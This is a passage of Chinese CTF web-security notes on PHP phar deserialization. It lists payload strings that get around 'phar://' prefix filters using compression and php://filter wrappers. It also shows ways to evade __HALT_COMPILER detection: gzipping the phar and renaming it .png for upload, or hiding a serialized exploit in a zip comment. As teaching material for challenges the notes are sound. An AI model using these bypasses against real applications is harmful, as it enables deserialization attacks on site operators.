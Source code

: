 ```
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///home/sx/test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
// 还可以使用伪协议的方法绕过
php://filter/resource=phar:///test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

#### 绕过__HALT_COMPILER特征检测

因为phar中的`a stub`字段必须以`__HALT_COMPILER();`字符串来结尾，否则`phar`扩展将无法识别这个文件为`phar`文件，所以这段字符串不能省略，只能绕过

**方法一：**

首先将 phar 文件使用 gzip 命令进行压缩，可以看到压缩之后的文件中就没有了`__HALT_COMPILER()`，将 phar.gz 后缀改为 png（png文件可以上传）

![image-20230717014558838](CTF_web.assets/image-20230717014558838.png)

```
filename=phar://pharppp.phar.gz/pharppp.phar
```

**方法二**

将phar的内容写进压缩包注释中，也同样能够反序列化成功，压缩为zip也会绕过该正则

```
$phar_file = serialize($exp);
    echo $phar_file;
    $zip = new ZipArchive();
    $res = $zip->open('1.zip',ZipArchive::CREATE); 
    $zip->addFromString('crispr.txt', 'file content goes here');
    $zip->setArchiveComment($phar_file);
    $zip->close();
```

这篇文章在php源码角度给出分析：https://www.anquanke.com/post/id/240007

> phar反序列化过程中，对metadata进行解析的时候会进行`php_var_unserialize()`将Phar中的metadata进行反序列化

<u>*ctfshow --- 276*</u>

<u>*BUUCTF --- [NCTF2019]phar matches everything*</u>
